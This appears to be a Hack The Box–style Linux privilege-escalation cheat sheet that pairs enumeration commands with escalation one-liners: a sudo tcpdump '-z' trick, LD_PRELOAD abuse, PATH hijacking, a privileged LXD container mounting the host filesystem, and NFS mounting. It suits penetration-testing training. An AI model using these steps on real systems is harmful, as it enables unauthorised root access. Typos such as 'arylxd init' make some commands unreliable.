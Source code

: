 
### SSH to Target

```bash
ssh htb-student@<target IP>
```

### Process and User Enumeration

```bash
ps aux | grep root          # See processes running as root
ps au                       # See logged in users
```

### User Directory and SSH Key Check

```bash
ls /home                    # View user home directories
ls -l ~/.ssh                # Check for SSH keys for current user
history                     # Check the current user's Bash history
```

### Sudo and Cron Jobs

```bash
sudo -l                     # Check sudo privileges
ls -la /etc/cron.daily      # Check for daily Cron jobs
```

### Disk and Filesystem Information

```bash
lsblk                       # Check for unmounted file systems/drives
```

### Writable Directories and Files

```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null    # Find world-writeable directories
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null    # Find world-writeable files
```

### System Information

```bash
uname -a                    # Check the Kernel version
cat /etc/lsb-release        # Check the OS version
```

### Compiling Exploits

```bash
gcc kernel_expoit.c -o kernel_expoit    # Compile an exploit written in C
```

### Process Monitoring

```bash
screen -v                   # Check the installed version of Screen
./pspy64 -pf -i 1000        # View running processes with pspy
```

### SUID and SETGID Files

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null   # Find binaries with the SUID bit set
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null   # Find binaries with the SETGID bit set
```

### Privilege Escalation Techniques

```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

### Path Manipulation

```bash
echo $PATH                  # Check the current user's PATH variable contents
PATH=.:${PATH}              # Add a . to the beginning of the current user's PATH
```

### Config File Discovery

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

### Shared Object and Binary Analysis

```bash
ldd /bin/ls                 # View the shared objects required by a binary
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart  # Escalate privileges using LD_PRELOAD
readelf -d payroll | grep PATH                            # Check the RUNPATH of a binary
gcc src.c -fPIC -shared -o /development/libshared.so      # Compile a shared library
```

### LXD Privilege Escalation

```bash
arylxd init                                                # Start the LXD initialization process
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine  # Import a local image
lxc init alpine r00t -c security.privileged=true           # Start a privileged LXD container
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true  # Mount host filesystem
lxc start r00t                                             # Start the container
```

### NFS Exploitation

```bash
showmount -e 10.129.2.12                                  # Show the NFS export lists
sudo mount -t nfs 10.129.2.12:/tmp /mnt                   # Mount an NFS share locally
```

### Tmux Shared Sessions

```bash
tmux -S /shareds new -s debugsess                         # Create a shared tmux session socket
```

### System Audit

```bash
./lynis audit system                                      # Perform a system audit with Lynis
```